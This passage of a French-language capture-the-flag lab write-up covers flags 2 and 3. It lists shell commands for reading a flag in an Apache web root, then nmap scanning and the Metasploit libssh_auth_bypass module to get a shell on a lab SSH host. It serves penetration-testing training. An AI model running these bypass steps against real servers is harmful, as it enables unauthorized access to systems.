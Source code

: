 
## 🎯 FLAG 2: Exploration répertoires cachés

### **Question:** *"In the server's root directory, there might be something hidden. Explore '/opt/apache/htdocs/' carefully to find the next flag."*

#### **Démarche:**
```bash
# Utiliser la session shell existante
cd /opt/apache/htdocs/
ls -la
cat flag2.txt
```

---

## 🎯 FLAG 3: Bypass d'authentification libssh

### **Question:** *"Investigate the user's home directory and consider using 'libssh_auth_bypass' to uncover the flag on target2.ine.local."*

#### **Étapes d'exploitation:**

1. **Reconnaissance target2**
   ```bash
   nmap -sC -sV -p- target2.ine.local
   ```
   - Port SSH ouvert

2. **Exploitation libssh bypass**
   ```bash
   # Dans Metasploit
   use scanner/ssh/libssh_auth_bypass
   set SPAWN_PTY true
   set RHOSTS target2.ine.local
   run
   ```

3. **Accès à la session**
   ```bash
   sessions -l
   sessions -i [numéro_session]
   ```

4. **Récupération du flag**
   ```bash
   cd ~
   cat flag3.txt
   ```

---
